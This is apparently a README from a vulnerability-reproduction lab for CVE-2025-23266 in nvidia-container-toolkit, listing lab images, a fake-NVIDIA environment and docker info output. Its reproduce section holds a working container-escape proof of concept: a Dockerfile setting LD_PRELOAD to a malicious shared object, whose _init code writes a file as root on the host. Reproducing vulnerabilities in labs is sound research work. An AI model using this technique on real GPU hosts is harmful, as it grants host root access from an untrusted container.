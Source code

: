 # nvidia-container-toolkit cve-2025-23266

* dqd:
  * ssst0n3/docker_archive:cve-2025-23266 -> ssst0n3/docker_archive:cve-2025-23266_v0.4.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.4.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.2.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-23266 -> ssst0n3/docker_archive:ctr_cve-2025-23266_v0.4.0
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.4.0: bump fake-nvidia to v0.7.1
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0: CDI mode compatible
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.2.0: setup hostname; install netcat
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.1.0

## usage

```shell
$ cd vul/cve-2025-23266
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### reproduce

[demo.ogv](./demo.ogv)

![demo.gif](./demo.gif)

```shell
$ ./ssh
root@cve-2025-23266:~# mkdir poc
cd poc
cat << EOF > Dockerfile
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/evil.so
ADD evil.so /
EOF

cat << EOF > evil.c 
#include <stdlib.h>
#include <stdio.h>

void _init() {
    FILE *f = fopen("/proof-cve-2025-23266", "w");
    fclose(f);
}
EOF

gcc -fPIC -shared -o evil.so evil.c -nostartfiles
docker build -t poc .
root@cve-2025-23266:~# docker run --rm --runtime=nvidia --gpus=all poc
root@cve-2025-23266:~# ls -lah /proof-cve-2025-23266 
-rw-r--r-- 1 root root 0 Jul 21 14:49 /proof-cve-2025-23266
```

### fake-nvidia

```shell
root@cve-2025-23266:~/poc# nvidia-container-cli info
NVRM version:   575.57.08
CUDA version:   12.2

Device Index:   0
Device Minor:   0
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-0-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   1
Device Minor:   1
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-1-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   2
Device Minor:   2
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-2-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   3
Device Minor:   3
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-3-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5
root@cve-2025-23266:~/poc# lsmod |grep fake
fake_nvidia_driver     12288  0
root@cve-2025-23266:~/poc# ls -lah /usr/local/lib/libnvidia-ml.so.1
-rwxr-xr-x 1 root root 22K Jul 25 03:05 /usr/local/lib/libnvidia-ml.so.1
root@cve-2025-23266:~/poc# systemctl status fake-nvidia-mknod
○ fake-nvidia-mknod.service - Create device nodes for fake nvidia driver
     Loaded: loaded (/etc/systemd/system/fake-nvidia-mknod.service; enabled; preset: enabled)
     Active: inactive (dead) since Fri 2025-07-25 03:53:03 UTC; 6min ago
    Process: 646 ExecStart=/usr/local/bin/fake-nvidia-mknod.sh (code=exited, status=0/SUCCESS)
   Main PID: 646 (code=exited, status=0/SUCCESS)
        CPU: 7ms

Jul 25 03:53:03 cve-2025-23266 systemd[1]: Starting fake-nvidia-mknod.service - Create device nodes for fake nvidia driver...
Jul 25 03:53:03 cve-2025-23266 systemd[1]: fake-nvidia-mknod.service: Deactivated successfully.
Jul 25 03:53:03 cve-2025-23266 systemd[1]: Finished fake-nvidia-mknod.service - Create device nodes for fake nvidia driver.
```

### env details

```shell
$ ./ssh
root@cve-2025-23266:~/poc# docker info
Client: Docker Engine - Community
 Version:    28.1.1
 Context:    default
 Debug Mode: false
 Plugins:
  buildx: Docker Buildx (Docker Inc.)
    Version:  v0.20.1
    Path:     /usr/libexec/docker/cli-plugins/docker-buildx
  compose: Docker Compose (Docker Inc.)
    Version:  v2.33.1
    Path:     /usr/libexec/docker/cli-plugins/docker-compose

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 1
 Server Version: 28.1.1
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Using metacopy: false
  Native Overlay Diff: true
  userxattr: false
 Logging Driver: json-file
 Cgroup Driver: systemd
 Cgroup Version: 2
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local splunk syslog
 Swarm: inactive
 Runtimes: runc io.containerd.runc.v2 nvidia
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 05044ec0a9a75232cad458027ca83437aae3f4da
 runc version: v1.2.5-0-g59923ef
 init version: de40ad0
 Security Options:
  apparmor
  seccomp
   Profile: builtin
  cgroupns
 Kernel Version: 6.8.0-64-generic
 Operating System: Ubuntu 24.04.2 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 1.922GiB
 Name: cve-2025-23266
 ID: 6cfae970-9b1e-40e5-95a1-269797a55572
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Experimental: false
 Insecure Registries:
  ::1/128
  127.0.0.0/8
 Live Restore Enabled: false
```

## build

```shell
make all DIR=vul/cve-2025-23266
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0
```
